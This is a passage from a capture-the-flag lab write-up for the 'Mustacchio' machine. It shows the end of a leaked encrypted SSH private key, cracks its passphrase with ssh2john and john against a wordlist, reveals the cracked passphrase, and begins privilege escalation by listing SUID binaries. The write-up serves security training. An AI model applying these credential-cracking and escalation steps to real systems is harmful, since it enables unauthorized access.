 ```
1dVkfWUhH2x9apWRV8pJM/ByDd0kNWa/c//MrGM0+DKkHoAZKfDl3sC0gdRB7kUQ
+Z87nFImxw95dxVvoZXZvoMSb7Ovf27AUhUeeU8ctWselKRmPw56+xhObBoAbRIn
7mxN/N5LlosTefJnlhdIhIDTDMsEwjACA+q686+bREd+drajgk6R9eKgSME7geVD
-----END RSA PRIVATE KEY-----
```

If we try logging using the key we notice it is encrypted, which means we need the passphrase, for this, let's try cracking it using `ssh2john`:

```
ssh2john id_rsa > id_hash.txt
```

Now, let's crack it:

```
john --wordlist=/usr/share/wordlists/rockyou.txt id_hash.txt
Warning: detected hash type "SSH", but the string is also recognized as "ssh-opencl"
Use the "--format=ssh-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
urieljames       (id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:03 DONE (2025-03-17 23:42) 0.2688g/s 3855Kp/s 3855Kc/s 3855KC/sa6_123..*7¡Vamos!
Session completed
```

Got the passphrase:

```
urieljames
```

We can now log into ssh with it:


![](Pasted image 20250317184506.png)

Let's start privilege escalation.



# PRIVILEGE ESCALATION
---

Let's find SUID binaries with root permissions:

```
barry@mustacchio:~$ find / -perm -4000 2>/dev/null

/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/at
/usr/bin/chsh
/usr/bin/newgidmap
```